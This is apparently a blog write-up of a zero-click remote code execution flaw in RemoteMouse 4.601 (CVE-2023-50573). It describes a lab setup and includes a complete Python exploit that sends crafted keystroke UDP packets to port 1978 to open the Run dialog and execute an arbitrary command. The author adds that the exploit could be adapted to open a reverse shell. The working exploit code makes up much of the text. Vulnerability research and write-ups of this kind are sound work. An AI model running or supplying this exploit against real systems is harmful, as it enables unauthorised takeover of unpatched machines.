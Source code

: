 ```yaml
---
title: Almost every 
author: RashidKhanPathan
date: 2023-08-11-08 11:33:00 +0800
categories: [WriteUp, Tutorial]
tags: [writing, writeup]
pin: true
toc: true
---
```


## Exploiting an RemoteMouse (Zero-Click)

Hello folks, today we’re diving into something a bit different **RemoteMouse 4.601**, an app that lets you control your PC from an Android device While the idea of controlling your computer from a distance sounds super convenient lol, it also has its downsides Let’s talk about some **serious vulnerabilities** that have been uncovered in the app that could potentially allow attackers to take over a target system with **no user interaction**, Yeah, you read that right **Zero-Click Exploit**.

### CVEs:
- `CVE-2023-50573` **Arbitrary Code Execution**
- `CVE-2023-51131` **Unquoted Service Path**

One of these vulnerabilities, `CVE-2023-50573`, is particularly nasty and dangerous It allows **arbitrary code execution** through a vulnerable service running over UDP, The beauty and danger of this bug is that it doesn't require the victim to do anything, no clicks, no file downloads, none, no, non, nein, nada, nie, net, just a simple **UDP packet**. so Let's break it down.

### The Vulnerability: **CVE-2023-50573** – Arbitrary Code Execution

In version `4.601` of RemoteMouse theres an issue in the UDP-based communication between devices, an attacker can send **malformed UDP packets** to the target system, If the packets are crafted in a certain or malicious way then they can trigger **arbitrary code execution** on the system, leading to complete control of the victim’s machine without any user interaction, That's the heart of the **zero-click** exploit.
![alt text](Png.png)
#### Exploitation?
To exploit this vulnerability, attackers don’t need to trick the user into clicking anything or opening a file, All they need is the ability to send malicious UDP packets to the vulnerable target system, Once the packets hit the server, they can execute arbitrary code, which could potentially be used for anything from taking full control of the system.
![alt text](New Project.png)
**Lab Setup**
- VM: Windows 10 22H2
- RemoteMouse 4.601 On VM
- Windows 10 22H2 Host
- Python Or C++ IDE Installed

![alt text](remote_mouse_interface-1.png)

## Exploit
```py
import socket
import enum
import re
import time
import argparse

class Keycodes(enum.Enum):
    WIN = "WIN"
    DELETE = "DELETE"
    ENTER = "RTN"

class RemoteMouseExploit:
    def __init__(self, target_ip):
        self.target_ip = target_ip
        self.re_keycodes = re.compile(r"(\[.*?\])")

    def char2pkt(self, s):
        i = ord(s) ^ 53
        rhs = "[ras]{}".format(i)
        return "key  {}{}".format(len(rhs), rhs)

    def special2pkt(self, kc):
        return "key  {}{}".format(len(kc.value), kc.value)

    def combo2pkt(self, s, kc):
        if len(s) != 1:
            s = Keycodes[s].value
        if not isinstance(kc, list):
            kc = [kc]
        modifiers = '[*]' + '[*]'.join([k.value for k in kc])
        rhs = "[kld]{}{}".format(s, modifiers)
        return "key {}{}".format(len(rhs), rhs)

    def parse_cmd(self, s):
        pkts = []
        for tok in re.split(self.re_keycodes, s):
            if not (tok.startswith('[') and tok.endswith(']')):
                pkts += [self.char2pkt(c) for c in tok]
                continue

            if '+' in tok:
                cmds = tok[1:-1].split('+')
                parsed_cmds = [Keycodes[cmd] if cmd in Keycodes.__members__ else cmd for cmd in cmds]
                pkts.append(self.combo2pkt(parsed_cmds[-1], parsed_cmds[:-1]))
                continue

            pkts.append(self.special2pkt(Keycodes[tok[1:-1]]))

        return pkts
    
    def send_exploit(self, pkts):
        print("[*] INFO: Sending exploit to", self.target_ip)
        sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        for pkt in pkts:
            time.sleep(0.08)
            print("[*] INFO: Sending '{}'".format(pkt))
            sock.sendto(pkt.encode('utf-8'), (self.target_ip, 1978))


# Usage
if __name__ == "__main__":
    
    parser = argparse.ArgumentParser(description='Send exploit payloads to RemoteMouse servers', epilog='Zero-Click RCE')
    print("Usage: python exploit.py 192.168.26.128 '[WIN+R]calc.exe[DELETE][ENTER]'")
    parser.add_argument('target_ip', type=str, help='IP address of the target')
    parser.add_argument('command', type=str, help='Command to execute')
    args = parser.parse_args()

    exploit = RemoteMouseExploit(args.target_ip)
    cmd_pkts = exploit.parse_cmd(args.command)
    print("[*] INFO: Executing '{}' against {} running on Windows (Unencrypted session)".format(args.command, args.target_ip))
    exploit.send_exploit(cmd_pkts)
```
Run the following exploit after installing an RemoteMouse on VM and make sure you running this exploit from host

![alt text](image-2.png)

after this the exploit should open the `run` > then its gonna open the `calc.exe`, this means our exploit executed successfully now if we modify our exploit to get reverse then we can would also get an reverse shell also.

![alt text](image-5.png)

#### Why is This Dangerous?
This vulnerability has **remote attack vectors**, meaning the attacker doesn’t need to be physically near the target machine. As long as they can send these specially crafted UDP packets over the network, they can cause all kinds of chaos. This opens the door for a **wide range of malicious activities**, from spying on the system to turning it into a botnet for further attacks.

### Final Thoughts
Zero-click vulnerabilities are some of the most dangerous kinds of bugs out there because they don’t require the victim to take any action. This RemoteMouse vulnerability is a perfect example of how an attacker can gain access to a system through a single malicious network packet. While RemoteMouse is a cool tool for remote control, this bug serves as a good reminder of the importance of **network security** and keeping our systems patched.

**Special Thanks**
- Rémi GASCOU (@Podalirius) - his previous research about `RemoteMouse-3.008-Exploit` made me do an case-study about this vulnerablity in depth and his exploit made me understand the nature of Vulnerability and wrote an C Exploit for this
- Paolo Stagno (@VoidSec)
- M. Akil Gündoğan (@akilgundogan)

**References:**
- Exploit (Python) https://github.com/p0dalirius/RemoteMouse-3.008-Exploit
- RemoteMouse ([Vendor Website](https://remotemouse.net/))
- Blog https://podalirius.net/en/articles/writing-an-exploit-for-remotemouse-3.008/
- `CVE-2023-50573`

also this blog post is limited, to media files including proper video cve and exploit file i woudl upload it soon















